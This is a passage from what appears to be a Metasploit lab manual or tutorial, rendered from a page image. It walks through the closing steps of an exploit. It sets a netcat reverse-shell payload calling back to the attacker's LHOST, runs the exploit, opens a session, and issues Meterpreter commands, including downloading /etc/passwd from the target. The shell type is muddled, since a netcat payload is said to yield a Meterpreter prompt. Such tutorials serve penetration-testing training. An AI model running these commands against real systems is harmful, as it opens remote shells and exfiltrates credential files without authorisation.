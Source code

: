    * `set payload cmd/unix/reverse_netcat_gaping`

   * `show options` (Notice the new options for the payload, like `LHOST`)

   * `set LHOST <your_kali_ip>` (Set LHOST to your Kali machine's IP address)

4. **Exploit and Get a Session:**

   * `exploit`

   * A session will be created. You can list active sessions with `sessions`.

5. **Interact with Meterpreter:**

   * `sessions -i <session_id>` (e.g., `sessions -i 2`)

   * Your prompt will change to `meterpreter >`.

6. **Basic Meterpreter Commands:**

   * `sysinfo`: Get system information.

   * `getuid`: See the current user (`root`).

   * `ps`: List running processes.

   * `ls`: List files in the current directory.

   * `download /etc/passwd .`: Download the password file from the target to your current directory on your Kali machine.

   * `exit`: Close the Meterpreter session.

> This manual provides a fundamental overview of an exploit workflow. The Metasploit Framework is exceptionally deep, with thousands of modules for discovery, exploitation, and post-exploitation. Continuous learning and ethical application are paramount.
>
> **// END OF LINE //**

